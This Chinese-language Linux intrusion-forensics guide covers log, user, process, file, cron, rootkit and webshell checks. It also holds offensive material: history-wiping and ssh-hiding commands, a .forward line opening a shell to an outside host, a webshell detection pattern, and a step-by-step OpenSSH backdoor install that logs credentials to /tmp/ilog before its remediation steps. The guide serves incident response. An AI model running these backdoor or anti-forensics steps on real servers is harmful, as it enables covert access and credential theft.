




原文 by http://thief.one/　　

最近遇到了很多服务器被入侵的例子，为了方便日后入侵检测以及排查取证，我查询了一些linux服务器入侵取证的相关资料，并在此总结分享，以便日后查询。
  
　　一般服务器被入侵的迹象，包括但不局限于：由内向外发送大量数据包（DDOS肉鸡）、服务器资源被耗尽（挖矿程序）、不正常的端口连接（反向shell等）、服务器日志被恶意删除等。那么既然是入侵检测，首先要判断的是服务器是否被入侵，必须排除是管理员操作不当导致的问题，因此入侵检测的第一项工作就是询问管理员服务器的异常现象，这对之后入侵类型的判断非常重要。
  

  
　　在询问了相关异常信息，排除了管理员操作失误等原因后，那么便可以开始正式的上服务器进行入侵检测以及取证操作了。
  

  
## 审计命令
  

  
### Linux 日志系统
  
日志对于安全来说，非常重要，他记录了系统每天发生的各种各样的事情，你可以通过它来检查错误发生的原因，或者受到攻击时攻击者留下的痕迹。日志主要的功能有：审计和监测。他还可以实时的监测系统状态，监测和追踪侵入者等等。
  

  
在Linux系统中，有三个主要的日志子系统：
  

  
连接时间日志--由多个程序执行，把纪录写入到/var/log/wtmp和/var/run/utmp，login等程序更新wtmp和 utmp文件，使系统管理员能够跟踪谁在何时登录到系统。进程统计--由系统内核执行，当一个进程终止时，为每个进程往进程统计文件（pacct或acct）中写一个纪录，进程统计的目的是为系统中的基本服务提供命令使用统计。
  

  
错误日志--由syslogd（8）执行。各种系统守护进程、用户程序和内核通过syslog(3)向文件/var/log/messages报告值得注意的事件。另外有许多UNIX程序创建日志。像HTTP和FTP这样提供网络服务的服务器也保持详细的日志。 常用的日志文件如下：
  

  
access-log 记录HTTP/web的传输  (sed -s 's/211.xxx.xxx.xxx/192.168.1.1/g' access_log access.log security)
  

  
acct/pacct 纪录用户命令
  

  
aculog 纪录MODEM的活动
  

  
btmp 纪录失败的纪录
  

  
lastlog 纪录最近几次成功登录的事件和最后一次不成功的登录
  

  
messages 从syslog中记录信息（有的链接到syslog文件）
  

  
sudolog 纪录使用sudo发出的命令
  

  
sulog 纪录使用su命令的使用
  

  
syslog 从syslog中记录信息（通常链接到messages文件）
  

  
utmp 纪录当前登录的每个用户
  

  
wtmp 一个用户每次登录进入和退出时间的永久纪录
  

  
xferlog 纪录FTP会话
  

  
utmp、wtmp和lastlog日志文件是多数重用UNIX日志子系统的关键--保持用户登录进入和退出的纪录。有关当前登录用户的信息记录在文件utmp中；登录进入和退出纪录在文件wtmp中；最后一次登录文件可以用lastlog命令察看。数据交换、关机和重起也记录在wtmp文件中，所有的纪录都包含时间戳。这些文件（lastlog通常不大）在具有大量用户的系统中增长十分迅速。例如wtmp文件可以无限增长，除非定期截取，许多系统以一天或者一周为单位把wtmp配置成循环使用。它通常由cron运行的脚本来修改，这些脚本重新命名并循环使用wtmp文件。通常，wtmp在第一天结束后命名为wtmp.1；第二天后wtmp.1变为wtmp.2等等，直到wtmp.7。
  

  
每次有一个用户登录时，login程序在文件lastlog中察看用户的UID。如果找到了，则把用户上次登录、退出时间和主机名写到标准输出中，然后login程序在lastlog中纪录新的登录时间。在新的lastlog纪录写入后，utmp文件打开并插入用户的utmp纪录，该纪录一直用到用户登录退出时删除。utmp文件被各种命令文件使用，包括who、w、users和finger。
  

  
下一步，login程序打开文件wtmp附加用户的utmp纪录。当用户登录退出时，具有更新时间戳的同一utmp纪录附加到文件中，wtmp文件被程序last和ac使用。
  
### auditd
Linux审计系统提供了一种跟踪系统上与安全相关的信息的方法。基于预先配置的规则，审核生成日志条目以记录尽可能多的关于系统上发生的事件信息。  
auditd（或auditd守护进程）是Linux系统中重要的内核审计组件，其负责将审计记录写入磁盘。使用auditd可以实现如下场景的审计监控：  
* 监控文件访问
* 监控系统调用
* 记录用户命令执行
* 记录安全事件
* 执行审计搜索
* 统计概要报表
* 监控网络访问

通常我们使用auditctl用来查看和控制auditd的审计行为，获取审计日志，添加或删除审计规则。如果你希望审计配置在系统重启后仍然有效，请通过系统文件/etc/audit/audit.rules进行持久化配置。  

  
### last
  
　　这个命令可用于查看我们系统的成功登录、关机、重启等情况，本质就是将/var/log/wtmp文件格式化输出，因此如果该文件被删除，则无法输出结果。
  

  
相关参数：
  
last -10（-n） 查看最近10条记录
  
last -x reboot 查看重启的记录
  
last -x shutdown 查看关机的记录
  
last -d 查看登陆的记录
  
last –help 命令帮助信息
  

  
### lastb
  
这个命令用于查看登录失败的情况，本质就是将/var/log/btmp文件格式化输出。
  

  
相关参数：
  
lastb name（root） 查看root用户登陆失败记录
  
lastb -10（-n） 查看最近10条登陆失败记录
  
lastb –heplp 命令帮助信息
  

  
### lastlog
  
这个命令用于查看用户上一次的登录情况，本质就是将/var/log/lastlog文件格式化输出。
  

  
相关参数：
  
lastlog 所有用户上一次登陆记录
  
lastlog -u username（root） root用户上一次登陆记录
  
lastlog –help 命令帮助信息
  

  
### who
  
　　这个命令用户查看当前登录系统的情况，本质就是将/var/log/utmp文件格式化输出。主要用来查看当前用户名称，以及登陆的ip地址信息，w命令与who一样，会更详细一些。
  

  
### history
  
查看历史命令记录，其实就是查看~/.bash_history文件内容，删除这个文件，记录就没了。  
默认情况下命令历史存储在~/.bash_history 文件中 。 添加下列内容到 .bash_profile 文件并重新登录bash shell， 将使用 /var/history/$USER-$UID.log 来存储命令历史，并可以定时上报到日志server进行审计，缺点是执行 history 命令看不到命令历史，对此也可以不改变命令历史的存储文件，而是每分钟同步一份~/.bash_history 到 bash_history_tmp，并上报审计。    
``` bash
# vi ~/.bash_profile   //输入以下内容
HISTFILE=/var/history/$USER-$UID.log  
```
如果history 被删，可以结合 accton 和 lastcomm  进行审计  
  
相关参数：
  
history 查看所有历史记录
  
history -10 查看最近10条记录
  
history | grep "wget" 查看wget相关信息的记录
  
history –help 命令帮助信息
  

  
## 检查ssh 登录
  

  
### ssh 登录方式：
  

  
1. 客户端存服务端的公钥。每次输入密码，用公钥加密后传输，服务端用私钥解密。当远程主机的公钥被接受以后，它就会被保存在文件$HOME/.ssh/known_hosts之中。下次再连接这台主机，系统就会认出它的公钥已经保存在本地了，从而跳过警告部分，直接提示输入密码。 

2. 服务端存客户端的公钥。登录的时候，远程主机会向用户发送一段随机字符串，用户用自己的私钥加密后，再发回来。远程主机用事先储存的公钥进行解密，如果成功，就证明用户是可信的，直接允许登录shell，不再要求密码。如果还是不行，就打开远程主机的/etc/ssh/sshd_config这个文件，检查下面几行前面"#"注释是否取掉。
``` 
RSAAuthentication yes 
PubkeyAuthentication yes 
AuthorizedKeysFile .ssh/authorized_keys
PasswordAuthentication no  # 禁止密码登录
PermitRootLogin no # 禁止root 登录
 ``` 
远程主机将用户的公钥，保存在登录后的用户主目录的$HOME/.ssh/authorized_keys文件中。公钥就是一段字符串，只要把它追加在authorized_keys文件的末尾就行了。
e.g 远程主机用户project 主目录下已存公钥，本地用户simba 将私钥id_rsa（权限设置为600）放在$HOME/.ssh 目录下，即可 ssh project@dst 登录远程主机。

### ssh 加固：
除了私钥登录，再加上一层随机token 保障  
TOTP协议：  
https://tools.ietf.org/html/rfc6238   
Google-Authenticator：  
https://github.com/google/google-authenticator  
https://aws.amazon.com/cn/blogs/startups/securing-ssh-to-amazon-ec2-linux-hosts/   
https://wiki.archlinux.org/index.php/Google_Authenticator   

  
### ssh 伪装技巧：
  

  
1. 作为跳板的时候，我们有可能需要用本机的ssh去访问别的机器，为了不保存别的机器的公钥在当前用户的目录下    
`ssh -o UserKnownHostsFile=/dev/null -T user@host /bin/bash –i`    
就可以了，但在这样运行某些命令的时候可能会有提示，说你的stdin不是个terminal，这里可以这样解决：python -c 'import pty; pty.spawn("/bin/sh")' 或者自己再建立个ttyshell。  
  

  
2. 登录ssh之后不记录history（记住：从 webshell弹回的shell也会记录你的操作）    
`unset HISTORY HISTFILE HISTSAVE HISTZONE HISTORY HISTLOG; export HISTFILE=/dev/null; export HISTSIZE=0; export HISTFILESIZE=0`  
  

  
3. 在跳板上登录目标 ssh -T somebody@1.1.1.1 /bin/bash –i，管理员使用 w 命令也查看不到登录tty状态。  
  

  
4. 检查登录失败特征  
一般来说，我们可以查看/etc/syslog.conf来获得log文件存放的位置，比如redhat 将登录日志保存在/var/log/secure。  
`grep "Failed password for root" /var/log/auth.log | awk '{print $11}' | sort | uniq -c | sort -nr | more`  
注意：有很多运维喜欢半夜做发布，故登录时间比较晚不一定是黑客，主要看失败次数，以及登录的聚集时间。  
  

  
5. sftp 登录  
SSH File Transfer Protocol (SFTP) is a part of the SSH protocol suite. Sometimes also called the Secure File Transfer Protocol, it provides implements secure file transfers over SSH. It supports the full security and authentication functionality of the SSH protocol, including SSH keys.
Only successful login attempt via sftp yourusername@yourservername are logged into /var/log/auth.log marked with
TIMESTAMP SERVERNAME sshd[xxxx] subsystem request for sftp  
  

  
## 检查文件状态改动时间
  
在windows下，一个文件有：创建时间、修改时间、访问时间。
  
而在Linux下，一个文件也有三种时间，分别是：访问时间、修改时间、状态改动时间。
  

  
两者有此不同，在Linux下没有创建时间的概念，也就是不能知道文件的建立时间，但如果文件建立后就没有修改过，修改时间=建立时间; 如果文件建立后，状态就没有改动过，那么状态改动时间=建立时间; 如果文件建立后，没有被读取过，那么访问时间=建立时间。因为不好判断文件是否被改过、读过、其状态是否变过，所以判断文件的建立时间基本上能为不可能。
  

  
1、访问时间(ls -la filename)，读一次这个文件的内容，这个时间就会更新。比如对这个文件运用 more、cat 等命令。ls、stat命令都不会修改文件的访问时间。
  
2、修改时间(ls -l filename)，修改时间是文件内容最后一次被修改时间。比如：vi后保存文件。ls -l 列出的时间就是这个时间。
  
3、状态改动时间(ls -lc filename)。是该文件的 i 节点最后一次被修改的时间。通过chmod、chown命令修改一次文件属性，这个时间就会更新。
  

  
某文件从其他服务器传到本服务器路径下，或者从某个压缩包中解压，change time 会变成当前时间，而 access time 和 modify time 不会变化。再结合进程的启动时间，基本就能确定此文件首次在本服务器的生成时间。
  

  
touch -r  use this file's times instead of current time
  

  
## 检查用户
  
Linux不同的用户，有不同的操作权限，但是所有用户都会在/etc/passwd、/etc/shadow、/etc/group文件中记录。
  

  
less /etc/passwd　　查看是否有新增用户
  
grep :0 /etc/passwd　　查看是否有特权用户（root权限用户）
  
ls -l /etc/passwd　　查看passwd最后修改时间
  
awk -F: '$3==0 {print $1}' /etc/passwd　　查看是否存在特权用户
  
awk -F: 'length($2)==0 {print $1}' /etc/shadow　　查看是否存在空口令用户
  

  
注：linux设置空口令：passwd -d username
  

  
## 检查进程
  
　　一般被入侵的服务器都会运行一些恶意程序，或是挖矿程序，或者DDOS程序等等，如果程序运行着，那么通过查看进程可以发现一些信息。
  如一般的反弹shell，核心是将bash的标准输入和标准输出都绑定到了socket fd 上，故 lsof -p pid 如果看到某bash 进程的0 1 绑定在tcp:socket 上，就是有问题的。简单通过 bash -i 来判断是否反弹shell，可能导致误报，如 /usr/bin/script脚本的作用是用于存储每个SESSION的工作，只有在远程连接中的情况下才会被执行，默认执行就会启动 bash -i。  


  
### 普通进程
  

  
ps -aux　　查看进程
  
top 查看进程
  
lsof -p pid　　查看进程所打开的端口及文件
  
lsof -c 进程名　　查看关联文件
  
ps -aux | grep python | cut -d ' ' -f 2 | xargs kill 杀死python相关的进程
  
检查/etc/inetd.conf文件，输入：cat /etc/inetd.conf | grep –v "^#"，输出的信息就是你这台机器所开启的远程服务。
  

  
lsof -i TCP -nP |grep -E 'LISTEN|ESTABLISHED' vs ss -napt 的输出对比
  

  

  
如果进程中没有发现异常，那么可以看看有没有开启某些隐藏进程。
  

  
### 隐藏进程
  

  
ps -ef | awk '{print}' | sort -n | uniq >1
  
ls /proc | sort -n |uniq >2
  
diff 1 2
  

  
注：以上3个步骤为检查隐藏进程。
  

  
## 检查文件
  
被入侵的网站，通常肯定有文件被改动，那么可以通过比较文件创建时间、完整性、文件路径等方式查看文件是否被改动。
  

  
find / -uid 0 -print 查找特权用户文件
  
find / -size +10000k -print 查找大于10000k的文件
  
find / -name "…" -print 查找用户名为 … 的文件
  
find / -name core -exec ls -l {} \; 查找core文件，并列出详细信息
  
md5sum -b filename 查看文件的md5值
  
rpm -qf /bin/ls 检查文件的完整性（还有其它/bin目录下的文件）
  
whereis 文件名 查看文件路径
  
ls -al 文件名 查看文件创建时间（包括 . 开头的隐藏文件，注意看一些目录下如/var/tmp下面是否放一些提权工具，命名为 .. 之类）
  
du -sh 文件名 查看文件大小
  
## 检查系统文件完整性

检查文件的完整性有多种方法，通常我们通过输入ls –l 文件名来查询和比较文件，这种方法虽然简单，但还是有一定的实用性。但是如果ls文件都已经被替换了就比较麻烦。在LINUX下可以用rpm –V `rpm –qf 文件名` 来查询，国家查询的结果是否正常来判断文件是否完整。在LINUX下使用rpm来检查文件的完整性的方法也很多，这里不一一赘述，可以man rpm来获得更多的格式。  
 
UNIX系统中，/bin/login是被入侵者经常替换作为后门的文件，接下来谈一下login后门 ：  

UNIX里，Login程序通常用来对telnet来的用户进行口令验证。入侵者获取login的源代码并修改，使它在比较输入口令与存储口令时先检查后门口令。如果用户敲入后门口令，它将忽视管理员设置的口令让你长驱直入：这将允许入侵者进入任何账号，甚至是root目录。由于后门口令是在用户真实登录并被日志记录到utmp和wtmP前产生的一个访问，所以入侵者可以登录获取shell却不会暴露该账号。  
管理员注意到这种后门后，使用”strings”命令搜索login程序以寻找文本信息。许多情况下后门口令会原形毕露。入侵者又会开始加密或者更改隐藏口令，使strings命令失效。所以许多管理员利用MD5校验和检测这种后门。UNIX系统中有md5sum命令，输入md5sum 文件名检查该文件的md5签名。它的使用格式如下：md5sum –b 使用二进制方式阅读文件；md5sum –c 逆向检查MD5签名；md5sum –t 使用文本方式阅读文件。  

在前面提到过守护进程，对于守护进程配置文件inetd.conf中没有被注释掉的行要进行仔细比较，举个简单的例子，如果你开放了telnet服务，守护进程配置文件中就会有一句：`telnet stream tcp nowait root /usr/sbin/in.telnetd in.telnetd`  

可以看到它所使用的文件是 /usr/sbin/in.telnetd，检查该文件的完整性，入侵者往往通过替换守护进程中允许的服务文件来为自己创建一个后门。  

LINUX系统中的/etc/crontab也是经常被入侵者利用的一个文件，检查该文件的完整性，可以直接cat /etc/crontab，仔细阅读该文件有没有被入侵者利用来做其他的事情。  

不替换login等文件而直接使用进程来启动后门的方法有一个缺陷，即系统一旦重新启动，这个进程就被杀死了，所以得让这个后门在系统启动的时候也启动起来。通常通过检查/etc/rc.d下的文件来查看系统启动的时候是不是带有后门程序；这个方法怎么有点象查windows下的trojan。  

说到这里，另外提一下，如果在某一目录下发现有属性为这样的文件：-rwsr-xr-x 1 root root xxx .sh，这个表明任何用户进来以后运行这个文件都可以获得一个rootshell，这就是setuid文件。运行 find –perm 4000 –print对此类文件进行全局查找，然后删除这样的文件。  

### RPM check检查

系统完整性也可以通过rpm自带的-Va来校验检查所有的rpm软件包,有哪些被篡改了,防止rpm也被替换,上传一个安全干净稳定版本rpm二进制到服务器上进行检查  

`./rpm -Va > rpm.log`  
如果一切均校验正常将不会产生任何输出。如果有不一致的地方，就会显示出来。输出格式是8位长字符串, c 用以指配置文件, 接着是文件名。 8位字符的每一个用以表示文件与RPM数据库中一种属性的比较结果。 `.` (点) 表示测试通过。 `.` 下面的字符表示对RPM软件包进行的某种测试失败：    
```
5 MD5 校验码
S 文件尺寸
L 符号连接
T 文件修改日期
D 设备
U 用户
G 用户组
M 模式e (包括权限和文件类型)
```  
借用sobug文章案例：如下图可知ps, pstree, netstat, sshd等等系统关键进程被篡改了。  
  
  
## 检查网络
  
检查网络的目的，是查看黑客是否通过篡改网卡类型，进行流量嗅探等操作。
  

ip link | grep PROMISC 正常网卡不应该存在promisc，如果存在可能有sniffer
  
lsof -i
  
netstat -nap 查看不正常端口
  
arp -a 查看arp记录是否正常
  
ifconfig -a 查看网卡设置

通过端口号查询监听的进程，-i4 表示ipv4   
`lsof -Pnl +M -i4 | grep 2222`  
   

  
## 检查计划任务
  
当我们尝试kill恶意程序时，往往会遇到被kill程序自动启动的问题，那么就要检查下计划任务(cron)了。  
  
/var/spool/cron/username 是用户 username 定义的任务所在的文件，有些黑客喜欢用bin 用户。  

a) 通过crontabl –l 查看当前的任务计划有哪些，是否有后门木马程序启动相关信息；    

b) 查看etc目录任务计划相关文件，ls /etc/cron*    

查看linux 开机启动程序    

a) 查看rc.local文件（/etc/init.d/rc.local /etc/rc.local）    

b) ls –alt /etc/init.d/    

c) chkconfig    
  
## 检查系统中的core文件

通过发送畸形请求来攻击服务器的某一服务来入侵系统是一种常规的入侵方法，典型的RPC攻击就是通过这种方式。这种方式有一定的成功率，也就是说它并不能100%保证成功入侵系统，而且通常会在服务器相应目录下产生core文件，全局查找系统中的core文件，输入find / -name core –exec ls –l {} \; 依据core所在的目录、查询core文件来判断是否有入侵行为。
  
## 检查系统后门
  
可以使用工具，如：clamAV（病毒库比较难下）、lynis（基础安全检查非常不错）、Conmodo、rkhunter、chkrootkit 等，  
当然也可以手工输入命令检查。
  

  
vim $HOME/.ssh/authorized_keys 查看ssh永久链接文件
  
lsmod 检查内核模块
  
chkconfig –list/systemctl list-units –type=service 检查自启
  

  
查看著名的木门后门程序：
  

  
ls /etc/rc.d
  
ls /etc/rc3.d
  
find / -name ".rhosts" –print
  
find / -name ".forward" –print
在某用户的$HOME下，.rhosts文件中仅包含两个+号是非常危险的，如果你的系统上开了513端口（rlogin端口，和telnet作用相同），那么任意是谁都可以用这个用户登录到你的系统上而不需要任何验证。  

Unix下在.forward文件里放入命令是重新获得访问的常用方法，在某一 用户$HOME下的.forward可能设置如下:  
`\username|"/usr/local/X11/bin/xterm -disp hacksys.other.dom:0.0 –e /bin/sh"`  

这种方法的变形包括改变系统的mail的别名文件(通常位于/etc/aliases). 注意这只是一种简单的变换. 更为高级的能够从.forward中运行简单脚本实现在标准输入执行任意命令(小部分预处理后).利用smrsh可以有效的制止这种后门(虽然如果允许可以自运行的elm's filter或procmail类程序, 很有可能还有问题。在Solaris系统下，如果你运行如下命令：  

ln -s /var/mail/luser ~/.forward  

然后设置vacation有效，那么/var/mail/luser就会被拷贝到~/.forward，同时会附加"|/usr/bin/vacation me"，旧的symlink被移到~/.forward..BACKUP中。  

直接删除掉这两个文件也可以。   

## 检查内核级后门

如果你的系统被人安装了这种后门，通常都是比较讨厌的，我常常就在想，遇到这种情况还是重新安装系统算了。  
言归正传，首先，检查系统加载的模块，在LINUX系统下使用lsmod命令，在solaris系统下使用modinfo命令来查看。这里需要说明的是，一般默认安装的LINUX加载的模块都比较少，通常就是网卡的驱动；而solaris下就很多，没别的办法，只有一条一条地去分析。对内核进行加固后，应禁止插入或删除模块，从而保护系统的安全，否则入侵者将有可能再次对系统调用进行替换。我们可以通过替换create_module()和delete_module()来达到上述目的。  
另外，对这个内核进行加固模块时应尽早进行，以防系统调用已经被入侵者替换。如果系统被加载了后门模块，但是在模块列表/proc/module里又看不到它们，有可能是使用了hack工具来移除加载的模块，大名鼎鼎的knark工具包就有移除加载模块的工具。出现这种情况，需要仔细查找/proc目录，根据查找到的文件和经验来判断被隐藏和伪装的进程。Knark后门模块就在/proc/knark目录，当然可能这个目录是隐藏的。  
  
### 检查网站后门
  
　　如果服务器上运行着web程序，那么需要检查是否通过web漏洞入侵服务器，具体的判断方法可以结合分析中间件日志以及系统日志，但过程需要较长时间。我们也可以通过检查服务器上是否留有入侵者放置的网站后门木马，以此判断黑客是否通过web应用入侵到服务器 [php-malware-finder](https://github.com/nbs-system/php-malware-finder)。
  
## Webshell查找

​Webshell的排查可以通过文件、流量、日志三种方式进行分析，基于文件的命名特征和内容特征，相对操作性较高，在入侵后应急过程中频率也比较高。可根据webshell特征进行命令查找，简单的可使用(当然会存在漏报和误报)  
```
find /var/www/ -name "*.php" |xargs egrep 'assert|phpspy|c99sh|milw0rm|eval|\(gunerpress|\(base64_decoolcode|spider_bc|shell_exec|passthru|\(\$\_\POST\[|eval \(str_rot13|\.chr\(|\$\{\"\_P|eval\(\$\_R|file_put_contents\(\.\*\$\_|base64_decode'
```
Webshell的排查可以通过Github上存在各种版本的webshell查杀脚本，当然都有自己的特点，可使用河马shell查杀（shellpub.com）    

综上所述，通过chkrootkit 、rkhunter、RPM check、Webshell Check 等手段得出以下应对措施：  

1. 根据进程、连接等信息关联的程序，查看木马活动信息。

2. 假如系统的命令（例如netstat ls 等）被替换，为了进一步排查，需要下载一新的或者从其他未感染的主机拷贝新的命令。

3. 发现可疑可执行的木马文件，不要急于删除，先打包备份一份。

4. 发现可疑的文本木马文件，使用文本工具对其内容进行分析，包括回连IP地址、加密方式、关键字（以便扩大整个目录的文件特征提取）等。
  
## 应用类
Apache、tomcat、Nginx、IIS  

无论任何web服务器其实日志需要关注的东西是一致的，即access_log和error_log。一般在确定ip地址后，通过:  

`find . access_log |grep xargs ip攻击地址`  

`find . access_log| grep xargs 木马文件名`  

页面访问排名前十的IP   
`cat access.log | cut -f1 -d " " | sort | uniq -c | sort -k 1 -r | head -10`   
页面访问排名前十的URL  
`cat access.log | cut -f4 -d " " | sort | uniq -c | sort -k 1 -r | head -10`  
查看最耗时的页面  
`cat access.log | sort -k 2 -n -r | head 10`  
在对WEB日志进行安全分析时，可以按照下面两种思路展开，逐步深入，还原整个攻击过程。  

首先确定受到攻击、入侵的时间范围，以此为线索，查找这个时间范围内可疑的日志，进一步排查，最终确定攻击者，还原攻击过程。  
  

一般攻击者在入侵网站后，通常会上传一个后门文件，以方便自己以后访问。我们也可以以该文件为线索来展开分析。  
  
  
## 打包文件
  
　　当我们做好一切入侵检测分析后，我们需要把一些日志文件copy到本地进行更进一步详细的分析时，怎么打包服务器相关信息，并且copy到本地呢？
  

  
### 打包web文件
  
打包文件名中包含jsp的文件，打包后的文件为my_txt_files.tar：
  

  
tar cvf my_txt_files.tar `find . -type f -name "*.jsp*"`
  

  
打包日志文件
  

  
tar -cvf log.tar /var/log
  

  
### 打包其他信息
  

  
last > last.log
  
netstat -an > netstat.log
  
......
  

  
### 传输文件到本地
  
将服务器上的文件传输到本地电脑上的几种方法。
  

  
lrzsz
  
如果ssh连接的客户端为xshell等，可以安装lrzsz命令（putty无法使用）
  

  
apt-get install lrzsz
  

  
使用：
  
上传文件到linux，rz；下载linux文件，sz 文件名。
  

  
开启ftp或者http
  
　　开ftp这里我不介绍了，网上很多教程，这里主要说说开启http服务。
  
　　一般linux服务器都默认安装了python，那么可以借助python快速开启一个http服务。
  

  
本文总结的都是一些Linux入侵检测最基础的命令，至于怎么用好这些命令，需要结合实际情况，主要还是看经验。以上所诉，还只是入侵检测信息收集阶段，至于如何通过现有信息分析出入侵途径，还需要借助其他工具以及知识。
  
## 渗透反辅
### 密码读取 
   a) Windows: Mimikatz  
   b) Linux: mimipenguin  

### 帐号信息  
   a) 操作系统帐号  
   b) 数据库帐号   
   c) 应用帐号信息  

### 敏感信息
   a) 配置信息  

   b) 数据库信息  

   c) 服务端口信息  

   d) 指纹信息  

### 滚雪球式线性拓展
   a) 密码口令类拓展（远控）  

   b) 典型漏洞批量利用  

### 常见的入侵方式Getshell方法
   a) WEB入侵  

   ​    i. 典型漏洞：注入Getshell , 上传Getshell，命令执行Getshell，文件包含Getshell，代码执行Getshell，编辑器getshell，后台管理Getshell，数据库操作Getshell  

   ​    ii. 容器相关：Tomcat、Axis2、WebLogic等中间件弱口令上传war包等，Websphere、weblogic、jboss反序列化，Struts2代码执行漏洞，Spring命令执行漏洞  

   b) 系统入侵  

   ​    i. SSH 破解后登录操作  

   ​    ii. RDP 破解后登录操作  

   ​    iii. MSSQL破解后远控操作  

   ​    iv. SMB远程命令执行（MS08-067、MS17-010、CVE-2017-7494）  

   c) 典型应用  

   ​    i. Mail暴力破解后信息挖掘及漏洞利用  

   ​    ii. VPN暴力破解后绕过边界  

   ​    iii. Redis 未授权访问或弱口令可导ssh公钥或命令执行  

   ​    iv. Rsync 未授权访问类  

   ​    v. Mongodb未授权访问类  
  
   ​    vi. Elasticsearch命令执行漏洞  

   ​    vii. Memcache未授权访问漏洞  

   ​    viii. 服务相关口令（mysql ldap zebra squid vnc smb）  
  

## 举例 ssh 后门
  
### 安装步骤：  

http://core.ipsecs.com/rootkit/patch-to-hack/0×06-openssh-5.9p1.patch.tar.gz  
http://ftp.eu.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-5.9p1.tar.gz  
安装前首先  
ssh -V  
[root@vincent tmp]# ssh -V  
OpenSSH_5.3p1, OpenSSL 1.0.1e-fips 11 Feb 2013  
记录下原来ssh版本信息，免得安装后一看就版本不一样了  
``` bash
tar zxvf openssh-5.9p1.tar.gz
tar zxvf 0x06-openssh-5.9p1.patch.tar.gz
cd openssh-5.9p1.patch/
cp sshbd5.9p1.diff ../openssh-5.9p1
cd ../openssh-5.9p1
patch < sshbd5.9p1.diff //patch 后门
```
vi includes.h //修改后门密码，记录文件位置  
``` c
/*
+#define ILOG "/tmp/ilog" //记录登录到本机的用户名和密码
+#define OLOG "/tmp/olog" //记录本机登录到远程的用户名和密码
+#define SECRETPW "123456654321" //你后门的密码
*/
```
vi version.h //修改SSH_VERSION，改成原来的OpenSSH_5.3p1, OpenSSL 1.0.1e-fips 11 Feb 2013  
  
先安装所需环境不然会报错
```
yum install -y openssl openssl-devel pam-devel
// apt-get install openssl libpam0g-dev  libkrb5-dev
./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5
```
注意要是出现：`configure: error: *** zlib.h missing – please install first or check config.log`
需要安装zlib  
```
yum install -y zlib zlib-devel
make && make install
```
```
service sshd restart //重启sshd
// /etc/init.d/ssh restart
```
然后我们登录ssh看看，不会记录使用后门密码登录的记录。  

  
### 修复方案：
  
1）重装openssh软件
  
2）SSH禁止对外开放
  
应急响应：
  
1）比对ssh的版本
  
ssh -V
  
2）查看ssh配置文件和/usr/sbin/sshd的时间
  
stat /usr/sbin/sshd
  
3）strings检查/usr/sbin/sshd，看是否有邮箱信息
  
strings可以查看二进制文件中的字符串，在应急响应中是十分有用的。有些sshd后门会通过邮件发送登录信息，通过strings /usr/sbin/sshd可以查看到邮箱信息。
  
4）通过strace监控sshd进程读写文件的操作
  
一般的sshd后门都会将账户密码记录到文件，可以通过strace进程跟踪到ssh登录密码文件。
  
``` bash
  
ps axu | grep sshd | grep -v grep
  
root 65530 0.0 0.1 48428 1260 ? Ss 13:43 0:00 /usr/sbin/sshd
  
strace -o aa -ff -p 65530
  
grep open aa* | grep -v -e No -e null -e denied| grep WR
  
aa.102586:open("/tmp/ilog", O_WRONLY|O_CREAT|O_APPEND, 0666) = 4
  
```
  
## Reference  
